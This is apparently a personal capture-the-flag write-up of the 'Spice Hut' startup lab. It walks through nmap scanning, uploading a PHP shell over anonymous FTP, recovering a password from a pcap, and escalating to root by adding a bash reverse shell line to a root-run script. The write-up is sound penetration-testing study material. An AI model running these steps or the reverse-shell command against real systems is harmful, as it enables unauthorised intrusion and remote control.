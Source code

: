 # Startup
**We are Spice Hut,** a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

**Questions**
- What is the secret spicy soup recipe?
- What are the contents of user.txt?
- What are the contents of root.txt?

- First, I will use nmap to find open ports and service versions
- Command : `nmap -sV -sC 10.10.196.55`

![[Pasted image 20251005212331.png]]

- anonymous FTP login allowed! we should try that first (and also, anyone can read notice.txt file)
- Command : `ftp 10.10.196.55` and type username as anonymous

![[Pasted image 20251005212854.png]]

- then, i used "get" command to download notice.txt and important.jpg files. 

![[Pasted image 20251005213201.png]]

- amongus mentioned huh

![[Pasted image 20251005213309.png]]

- lolll what is this
- for now, lets access the website and use gobuster to enumerate the directories

![[Pasted image 20251005213916.png]]

![[Pasted image 20251005213935.png]]

- they are the same as the ones we found in ftp so they're not really helpful
- But wait...what if we **upload a payload to FTP server**, and then it will be **appeared in the website**? Good idea isnt it? we can try that

![[Pasted image 20251005222736.png]]

- why not?
- Ohh its becuase we dont have permissions to write files there! ( we are anonymous )
- remember, there is a **ftp folder** which can be r,w,x by anyone, so i will go to that directory to create tmp directory so that we can upload files to there

![[Pasted image 20251005223031.png]]

![[Pasted image 20251005223102.png]]

- ok we just uploaded php file there
- now, set a listener and then execute the php file

![[Pasted image 20251005223236.png]]

- wooo we gained access!
- now, lets see the list of users

![[Pasted image 20251005223337.png]]

- vagrant,lennie and ftpsecure

![[Pasted image 20251005223515.png]]

- i found recipe in root directory

![[Pasted image 20251005223551.png]]

- Um i have no words, but anyway we got the first answer to the question, which is "love"
- Anyway in home directory, there is another suspicious directory called "incidents"

![[Pasted image 20251005223936.png]]
 
![[Pasted image 20251005223956.png]]

- there is a sus pcap that has the owner as "www-data", is it related to wireshark?
- lets transfer file from target to here for further investigation
- Command target :  `python2 -m SimpleHTTPServer 8000`
- Command attacker : `wget http://10.10.196.55:8000/suspicious.pcapng -O suspicious.pcapng`
- Then i open wireshark on attacker machine : `wireshark suspicious.pcapng`

![[Pasted image 20251005225535.png]]

![[Pasted image 20251005225824.png]]

- where is 192.168.22.139 ? it seems to be the captures from that interface

*/*/r 17:40:21 up 20 min,  1 user,  load average: 0.00, 0.03, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
vagrant  pts/0    10.0.2.2         17:21    1:09   0.54s  0.54s -bash

- user vagrant, lets try to see what he does 
- `python -c "import pty;pty.spawn('/bin/bash')"`
- seems like hes doing priv escalation
- At line 152, he is trying to access lennie's folder

![[Pasted image 20251005230758.png]]

- then he tried sudo -l and entered pass for www-data
- c4ntg3t3n0ughsp1c3 is the INCORRECT password for www-data that vagrant typed, but is it the password for lennie or vagrant? lets try logging in via ssh
- `ssh lennie@10.10.196.55`

![[Pasted image 20251005231925.png]]

- it worked! whattt
- and i got the flag!
- now, lets try doing privilege escalation for root

![[Pasted image 20251005232747.png]]

- there are 2 directories in lennie's home dir, lets examine both

![[Pasted image 20251005232915.png]]

- planner.sh is owned by root and can be executed by ithers (including lennie)
- lets examine **/etc/print.sh**

![[Pasted image 20251005233048.png]]

- its owned by lennie, so we can r,w,x this file

![[Pasted image 20251005233118.png]]

- we can add a line to execute a bash shell here
- `/bin/bash -i >& /dev/tcp/10.23.125.244/4444 0>&1`

![[Pasted image 20251006000733.png]]

- but how to make root run the planner file since we can execute planner.sh?

![[Pasted image 20251006000718.png]]

- so i started a listener on port 4444 cuz i thought when we execute this, we will get the bash back but seems like we dont even have to execute it! It somehow executes automatically, maybe because of crons? but i already checked and theres nothing tho

![[Pasted image 20251006001110.png]]

- got the root flag
